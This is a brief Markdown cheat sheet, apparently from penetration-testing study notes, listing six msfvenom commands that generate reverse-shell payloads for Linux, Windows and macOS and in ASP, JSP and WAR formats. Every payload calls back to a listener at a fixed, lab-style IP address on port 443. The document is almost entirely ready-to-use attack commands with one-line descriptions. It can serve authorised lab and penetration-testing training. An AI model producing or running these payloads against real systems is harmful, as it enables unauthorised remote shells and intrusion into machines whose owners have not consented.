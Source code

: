 # MsfVenom

| Command                                                                                            | Description                                                                           |
| -------------------------------------------------------------------------------------------------- | ------------------------------------------------------------------------------------- |
| `msfvenom -p linux/x64/shell_reverse_tcp LHOST=10.10.14.113 LPORT=443 -f elf > nameoffile.elf`     | `MSFvenom` command used to generate a linux-based reverse shell `stageless payload`   |
| `msfvenom -p windows/shell_reverse_tcp LHOST=10.10.14.113 LPORT=443 -f exe > nameoffile.exe`       | MSFvenom command used to generate a Windows-based reverse shell stageless payload     |
| `msfvenom -p osx/x86/shell_reverse_tcp LHOST=10.10.14.113 LPORT=443 -f macho > nameoffile.macho`   | MSFvenom command used to generate a MacOS-based reverse shell payload                 |
| `msfvenom -p windows/meterpreter/reverse_tcp LHOST=10.10.14.113 LPORT=443 -f asp > nameoffile.asp` | MSFvenom command used to generate a ASP web reverse shell payload                     |
| `msfvenom -p java/jsp_shell_reverse_tcp LHOST=10.10.14.113 LPORT=443 -f raw > nameoffile.jsp`      | MSFvenom command used to generate a JSP web reverse shell payload                     |
| `msfvenom -p java/jsp_shell_reverse_tcp LHOST=10.10.14.113 LPORT=443 -f war > nameoffile.war`      | MSFvenom command used to generate a WAR java/jsp compatible web reverse shell payload |
